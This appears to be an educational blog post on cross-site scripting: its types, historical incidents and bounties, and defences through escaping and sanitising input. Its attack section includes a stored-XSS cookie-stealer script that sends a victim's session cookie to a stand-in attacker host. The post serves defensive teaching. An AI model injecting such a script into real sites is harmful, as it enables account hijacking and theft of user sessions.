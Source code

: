 ```yaml
---
layout: post
title: Cross-site Scripting (XSS) 😈
slug: xss
URL: https://levelup.gitconnected.com/cross-site-scripting-xss-fd374ce71b2f
author: Martin Thoma
date: 2020-10-16 20:00
category: Code
tags: InfoSec, AppSec, Security, Cybersecurity, XSS
featured_image: logos/cybersecurity.png
---
```

Cross-site scripting (XSS) is a type of attack on websites where the attacker can make the attacked website deliver JavaScript to the user. This malicious JavaScript is then executed on the users’ machine.

Various types of XSS are distinguished:

* **Stored XSS**: The attacker can make the website store the XSS, e.g. by crafting a comment on Facebook or a chat message on Twitch which contains the malicious message. The malicious message is then delivered to every new client which accesses the page.
* **Reflected XSS**: Some websites allow you to create links that you can share. For example, a Google search. The URL contains the search term and if somebody clicks on that link, Google will show the search term from the link on the page. So Google reflects a parameter of the link on the page. If an attacker changes the search term to contain code, that code could potentially be executed by the browser of any user who clicks on the link.
* **DOM-based XSS**: In modern web applications the logic is mostly in the client. This means the attacker does not have to go to the server-side to do harm. The on-site JavaScript is attacked. In contrast to the reflected XSS, the server didn’t directly cause the issue. The (valid) JavaScript on the page read the attack.

The **attack surface** is pretty big for modern websites. Any user-supplied
data can contain an XSS attack. It could be a comments section, advertisement,
the document.referrer, URL fragments, …

## Why it Matters

* XSS is part of the [OWASP Top-10](https://owasp.org/www-project-top-ten/), meaning it’s recognized as a common vulnerability
* There are **14,625 CVE entries for XSS** vulnerabilities on mitre.org ([source](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=cross-site))
* **2005**: MySpace had a worm called [Samy](https://en.wikipedia.org/wiki/Samy_(computer_worm)). Within 20 hours, the author got one million users to friend him ([source](https://www.vice.com/en/article/wnjwb4/the-myspace-worm-that-changed-the-internet-forever)). **MySpace had to take the site down because of this XSS attack.**
* **2011**: Facebook worm allows automatic wall posts ([source](https://community.broadcom.com/symantecenterprise/communities/community-home/librarydocuments/viewdocument?DocumentKey=6c4ddf17-8e6d-4e92-8bec-f918cbf61afc&CommunityKey=1ecf5f55-9545-44d6-b0f4-4e4a7f5f5e68&tab=librarydocuments))
* **2013**: PayPal was vulnerable as discovered by [Robert Kugler](https://s3cur3.it/references) ([source](https://seclists.org/fulldisclosure/2013/May/163)). It was likely possible to create a link which made a payment when you clicked on it, without you needing to interact.
* **2013**: Yahoo was vulnerable to reflected XSS ([source](https://arstechnica.com/information-technology/2013/01/how-yahoo-allowed-hackers-to-hijack-my-neighbors-e-mail-account/))
* **2016**: Researcher found XSS vulnerability on Facebook ([source](https://whitton.io/articles/xss-on-facebook-via-png-content-types/))
* **2018**: Uber was vulnerable to a reflected XSS attack ([source](https://hackerone.com/reports/191810)). Uber paid $3000 for it.
* **2019**: Steam was vulnerable to a stored XSS attack ([source](https://hackerone.com/reports/409850)). Steam paid $7500 for it.
* **2020**: Facebook paid **$20,000** for finding an XSS attack ([source](https://portswigger.net/daily-swig/xss-vulnerability-in-login-with-facebook-button-earns-20-000-bug-bounty)).
* **2020**: Tumblr was vulnerable to a DOM-based XSS attack ([source](https://hackerone.com/reports/882546)). Automattic paid $350 for it.

![Photo by [Aarón Blanco Tejedor](https://unsplash.com/@healing_photographer?utm_source=medium&utm_medium=referral) on [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral)](https://cdn-images-1.medium.com/max/9856/0*ExwQ55rXgbShCgmN)*Photo by [Aarón Blanco Tejedor](https://unsplash.com/@healing_photographer?utm_source=medium&utm_medium=referral) on [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral)*

## How are XSS attacks executed?

There are various ways attackers can do harm: They can **make the website
unusable** if the XSS script is on it. They can run a **cryptocurrency miner**.
They can **steal sensitive data**.

As promised, it follows how to design a **cookie stealer** for **account
hijacking**.

We just assume that we have a website like Facebook where you can add comments
to posts. We assume that the comments are just taken as is and copied to
everybody who opens the page. The comment we make is

```html
<script>
    image = new Image();
    image.src='[https://attacker.com/steal?cookie='+document.cookie](https://attacker.com/?'+document.cookie);
</script>
```

You can see that this will not do anything — for the other users, this will
just look like an empty message. It will not refresh the page. It will not open
another window. But it will call http://attacker.com/steal with a GET request
which has a cookie parameter. Hence on the side of the attacker there only
needs to be a web server that is reachable and logs those requests. After that,
the attacker can use the cookie and impersonate the victim. The attacker
doesn’t know the victims' credentials but hijacked the session instead.

## What can I do to prevent XSS attacks?

Never blindly trust user data. Remove potentially harmful parts, escape parts
that will change the expected output. You might want to remove and `<script>`
tags or replace `<` by `&lt;`. It’s not enough, though. You can also execute
JavaScript with the
[onload attribute](https://www.w3schools.com/jsref/event_onload.asp). That
attribute can be added to many or even all HTML tags.

Various languages have methods to escape those:

* Go: [EscapeString](https://golang.org/pkg/html/#EscapeString)
* Java: [org.apache.commons.lang.StringEscapeUtils.escapeHtml](https://commons.apache.org/proper/commons-lang/javadocs/api-2.6/org/apache/commons/lang/StringEscapeUtils.html#escapeHtml(java.lang.String))
* JavaScript: [DOMPurify](https://www.npmjs.com/package/dompurify)
* Python: [html.escape](https://docs.python.org/3/library/html.html#html.escape)
* PHP: [htmlspecialchars](https://www.php.net/manual/en/function.htmlspecialchars.php)
* Ruby: [htmlescape](https://ruby-doc.org/stdlib-2.6.3/libdoc/erb/rdoc/ERB/Util.html#method-c-html_escape)
* Rust: [htmlescape::encode_miniaml](https://docs.rs/htmlescape/0.3.1/htmlescape/fn.encode_minimal.html)

Also, make sure you do that as early as possible. There should be a secure way
to use data from the database — and that should not require to know that there
is potentially harmful data within it. So escape the data before you put it in
the DB. Make sure escaping is
[idempotent](https://en.wikipedia.org/wiki/Idempotence) — escaping two times
should be the same as escaping once. If you really think you need the original
somewhere, you can have a _raw field in the database. Or you have a data access
layer (DAL) that takes care of the escaping.

Remember to **sanitize ALL user inputs**, not only stuff that was in input fields. Don’t forget about [URL fragments](https://martin-thoma.com/tags.html#klausur-ref) and [Document.referrer](https://developer.mozilla.org/en-US/docs/Web/API/Document/referrer) .

## See also

I love [Tom Scott](https://en.wikipedia.org/wiki/Tom_Scott_(entertainer)) and [Computerphile](https://www.youtube.com/user/Computerphile) and they made a video about the topic!

<center><iframe width="560" height="315" src="https://www.youtube.com/embed/L5l9lSnNMxg" frameborder="0" allowfullscreen></iframe></center>

## What’s next?

In this series about application security (AppSec) we already explained some of the techniques of the attackers 😈 and also techniques of the defenders 😇:

* Part 1: [SQL Injections](https://medium.com/faun/sql-injections-e8bc9a14c95) 😈
* Part 2: [Don’t leak Secrets](https://levelup.gitconnected.com/leaking-secrets-240a3484cb80) 😇
* Part 3: [Cross-Site Scripting (XSS)](https://levelup.gitconnected.com/cross-site-scripting-xss-fd374ce71b2f) 😈
* Part 4: [Password Hashing](https://levelup.gitconnected.com/password-hashing-eb3b97684636) 😇
* Part 5: [ZIP Bombs](https://medium.com/bugbountywriteup/zip-bombs-30337a1b0112) 😈
* Part 6: [CAPTCHA](https://medium.com/plain-and-simple/captcha-500991bd90a3) 😇
* Part 7: [Email Spoofing](https://medium.com/bugbountywriteup/email-spoofing-9da8d33406bf)

And this is about to come:

* CSRF 😈
* DOS 😈
* Credential Stuffing 😈
* Cryptojacking 😈
* Single-Sign-On 😇
* Two-Factor Authentication 😇
* Backups 😇
* Disk Encryption 😇

Let me know if you are interested in more articles around AppSec / InfoSec!
